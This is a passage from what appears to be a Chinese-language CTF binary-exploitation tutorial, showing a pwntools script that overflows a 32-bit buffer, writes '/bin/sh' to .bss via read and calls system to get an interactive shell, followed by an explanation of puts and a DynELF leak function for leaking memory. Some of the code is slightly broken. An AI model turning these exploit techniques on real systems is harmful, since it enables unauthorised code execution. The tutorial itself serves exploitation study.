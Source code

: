```python

    payload1 = 'A'*0x8c + p32(read_addr) + p32(func) + p32(0) + p32(bss_addr) + p32(8)
    # payload1 = 'A'*0x8c + p32(read_addr) + p32(start) + p32(0) + p32(bss_addr) + p32(8)
    # payload1 = 'A'*0x8c + p32(read_addr) + p32(main) + p32(0) + p32(bss_addr) + p32(8)
    p.send(payload1)
    sleep(1)
    p.send("/bin/sh\x00")
    sleep(1)

    payload2 = 'A'*0x8c + p32(system_addr) + p32(func) + p32(bss_addr)
    p.send(payload2)

    p.interactive()

    # other way
    # payload = 'A'*0x8c + p32(read_addr) + p32(system_addr) + p32(0) + p32(bss_addr) + p32(8)
    # p.send(payload)
    # sleep(1)
    # p.send('/bin/sh\x00')
    # sleep(1
    # p.interactive()
```

## DynELF的使用————puts函数

puts的原型是puts(addr)，即将addr作为起始地址输出字符串，直到遇到“x00”字符为止。也就是说，puts函数输出的数据长度是不受控的，只要我们输出的信息中包含x00截断符，输出就会终止，且会自动将“n”追加到输出字符串的末尾，这是puts函数的缺点，而优点就是需要的参数少，只有1个，无论在x32还是x64环境下，都容易调用。
利用puts函数输出的字符串最后一位为“n“这一特点，分两种情况：

- puts输出完后就没有其他输出

```python
    def leak(address):
    count = 0
    data = ''
    payload = xxx
    p.send(payload)
    print p.recvuntil('xxx\n') #一定要在puts前释放完输出,然后程序执行到retn，开始执行我们的payload
    up = ""

    # while循环过滤得到泄露的地址
    while True:
        #由于接收完标志字符串结束的回车符后，就没有其他输出了，故先等待1秒钟，如果确实接收不到了，就说明输出结束了
        #以便与不是标志字符串结束的回车符（0x0A）混淆，这也利用了recv函数的timeout参数，即当timeout结束后仍得不到输出，则直接返回空字符串””
        c = p.recv(numb=1, timeout=1)
        count += 1
        if up == '\n' and c == "":  #接收到的上一个字符为回车符，而当前接收不到新字符，则
            data = data[:-1]             #删除puts函数输出的末尾回车符
            data += "\x00"
            break
        else:
            data += c
            up = c
    data = data[:4]  #取指定字节数
    log.info("%#x => %s" % (address, (data or '').encode('hex')))
    return data
  ```
